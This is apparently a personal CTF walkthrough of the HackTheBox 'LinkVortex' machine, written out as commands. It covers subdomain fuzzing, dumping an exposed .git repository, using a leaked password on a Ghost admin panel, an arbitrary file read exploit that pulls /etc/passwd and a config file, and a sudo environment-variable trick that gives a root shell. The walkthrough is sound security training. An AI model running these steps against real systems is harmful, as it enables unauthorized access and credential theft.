

# LinkVortex CTF - HackTheBox Room
# **!! SPOILERS !!**
#### This repository documents my walkthrough for the **LinkVortex** CTF challenge on [HackTheBox](https://app.hackthebox.com/machines/LinkVortex). 
---

we see open ports 22 and 80


we need to add `linkvortex.htb` to /etc/hosts


we can use ffuf to enumerate subdomains

```
ffuf -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -u http://linkvortex.htb -H 'Host: FUZZ.linkvortex.htb' -fs 230
```


we found vhost `dev`


we cam also scan for directories on main page and on subdomain

we found `.git` folder using gobuster


now we can use git-dumper to dump the github folder

```
git-dumper http://dev.linkvortex.htb/.git .
```

now we can use git to checkout the files, we can try using 

```
$ git log --oneline --graph --decorate --all
$ git diff
$ git diff --cached
```


we found some plain text password

from dumping .git folder we also found Dockerfile.ghost


we can find login form by going to `linkvortex.htb/ghost`, we need to find a username


by looking at the posts we see a lot of them were wrote by admin


we can try to login as admin in email format: `admin@linkvortex.htb` , we see error saying wrong password



if we test other user we see that there is no user with this login so we see a flawed logic


now we can test plain text password we found to login

it worked, we see some admin panel


i didnt found a good way to upload a file or create reverse shell

i found some CVE about ghost version running on machine, we can use explot from github `https://github.com/0xDTC/Ghost-5.58-Arbitrary-File-Read-CVE-2023-40028`

```
$ git clone https://github.com/0xDTC/Ghost-5.58-Arbitrary-File-Read-CVE-2023-40028
$ cd Ghost...
$ ./CVE-2023-40028 -u admin@linkvortex.htb -p OctopiFociPilfer45 -h http://linkvortex.htb

> /etc/passwd
```

we have file read from a server, i tested the /etc/passwd and it works


then we can test configuration file that was mentioned in dockerfile

```
> /var/lib/ghost/config.production.json
```


we also see some credentials 

i tried using them to login to ssh, and it worked 


now we can view sudo -l output


and the script mentioned in sudo -l


to exploit this first we need to create symlink to some folder 

```
$ cd /tmp
$ ln -sf /TEST test.png
```

then we need to execute this command 

```
$ CHECK_CONTENT=bash sudo /usr/bin/bash /opt/ghost/clean_symlink.sh test.png
```


The script checks if the environment variable CHECK_CONTENT is set, and then runs it like a command using if $CHECK_CONTENT. Normally, this variable should just be “true” or “false”, but because the script doesn't use quotes or proper checks, we can set it to any command. When we run `CHECK_CONTENT=bash sudo /usr/bin/bash /opt/ghost/clean_symlink.sh test.png`, the script ends up running `bash as root`. This works because the script is executed with sudo, and the env_keep setting allows us to pass the CHECK_CONTENT variable into the root environment. As a result, we get a root shell.


now we have root access 

and root flag


# MACHINE PWNED
